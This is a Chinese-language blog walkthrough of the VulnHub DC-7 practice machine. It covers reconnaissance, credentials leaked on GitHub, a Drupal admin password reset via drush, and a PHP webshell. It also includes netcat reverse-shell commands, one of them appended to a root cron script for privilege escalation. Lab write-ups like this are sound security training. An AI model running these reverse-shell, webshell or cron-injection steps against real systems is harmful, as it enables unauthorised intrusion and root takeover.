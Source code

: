 ```yaml
---
title: DC-7复现
permalink: /archives/54139/
published: 2022-12-01 09:13:00
tags: 
  - vulnhub
  - 渗透测试
category: 靶场&靶机
---
```


# DC-7复现

## 描述

> DC-7是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 虽然这不是一个过于技术性的挑战，但它并不容易。
>
> 虽然这是早期DC版本的逻辑进展（我不会告诉你是哪一个），但涉及一些新概念，但你需要自己弄清楚这些概念。:-)如果您需要诉诸暴力破解或字典攻击，您可能不会成功。
>
> 你需要做的，是“跳出框框”思考。
>
> 哇 盒子的“外面”。:-)
>
> 这个挑战的最终目标是获得根并阅读唯一的标志。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确定目标的**IP**，以及开放的端口

`nmap 192.168.71.0/24`

![image-20221201092525322](./images/image-20221201092525322.png)

访问80端口上的服务

![image-20221201093011739](./images/image-20221201093011739.png)

机翻

![image-20221201093141461](./images/image-20221201093141461.png)

根据这个提示，说不是技术性的问题，那就有可能是找线索，然后可以发现在脚标处有一个@DC7USER，用谷歌搜索进到了他的GitHub主页，在他的staffdb仓库中的config.php里发现了一个账号和密码，还有数据库的名字

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

![image-20221201093608772](./images/image-20221201093608772.png)

## 漏洞利用

### 账号密码泄露利用

直接在网页登录，是失败的

![image-20221201093747135](./images/image-20221201093747135.png)

那就换一个思路，我们最开始扫描机器的时候，发现其开启了22端口，那就尝试ssh登录

```bash
ssh dc7user@192.168.71.129
```

登录成功

![image-20221201094354750](./images/image-20221201094354750.png)

在当前目录下，发现了两个文件夹**backups**和**mbox**，其中backups是有两个gpg结尾的文件，经过查阅得知这是一种加密文件的后缀；在mbox里记录着root的定时任务，其项目位于`/opt/scripts/backups.sh`

![image-20221201095704000](./images/image-20221201095704000.png)

查看**backups.sh**里的内容

![image-20221201095822202](./images/image-20221201095822202.png)

因为是一个shell脚本，那就看是否够权限写入，并执行进行反弹shell

`ls -l`

发现并没有权限

![image-20221201100418322](./images/image-20221201100418322.png)

### drush修改密码

在**backups.sh**里，我们看到了**drush**命令，进行简单的了解后发现可以利用

drush部分命令：

```
查看用户信息
drush user-information admin	//查询是否存在admin
修改密码
drush upwd admin --password="1234"		//修改admin密码为1234
```

存在admin用户

![image-20221201101409140](./images/image-20221201101409140.png)

admin密码修改成功

![image-20221201101440524](./images/image-20221201101440524.png)

成功登录

![image-20221201101512704](./images/image-20221201101512704.png)

### 反弹shell

这个站的cms是Drupal8，它是不支持php代码的，需要添加模块

<!-- ![image-20221201101820426](C:\Users\alpha\AppData\Roaming\Typora\typora-user-images\image-20221201101820426.png) -->

位置：**manage**->**extend**->**install new module**

可以选者在**intsall from a url**里面填入下载地址进行安装，也可以下载之后选择**Upload a module or theme archive to install**导入安装，我因为url导入不成功，就用上传的方式

下载地址：

```url
https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
```

![image-20221201102310752](./images/image-20221201102310752.png)

回退到Extend界面进行安装

![image-20221201102628741](./images/image-20221201102628741.png)

然后进到content界面直接修改随便一个文件，写入一句话木马

![image-20221201102938629](./images/image-20221201102938629.png)

连接成功，利用蚁剑的虚拟终端进行反弹shell

![image-20221201103452414](./images/image-20221201103452414.png)

```
nc -lvvp 1234	//在攻击机上执行
nc -e /bin/sh 192.168.71.128 1234	//在受害机上执行
python -c 'import pty; pty.spawn("/bin/bash")'	//交互式shell
```

![image-20221201103751736](./images/image-20221201103751736.png)

## 提权

之前的提权方式都用不了，就只能换个思路，前面提到想用**backups.sh**进行反弹shell，发现www-data用户是有写入的权限的，那就同理利用其进行提权

可以直接在蚁剑里找到backups.sh直接加上`nc -e /bin/sh 192.168.71.128 1234`

![image-20221201144758579](./images/image-20221201144758579.png)

也可以利用echo进行写入

```bash
echo 'nc -e /bin/sh 192.168.71.128 1234'>>/opt/scripts/backups.sh
```

```bash
cd ~
cat theflag.txt
```

## flag

![image-20221201144633041](./images/image-20221201144633041.png)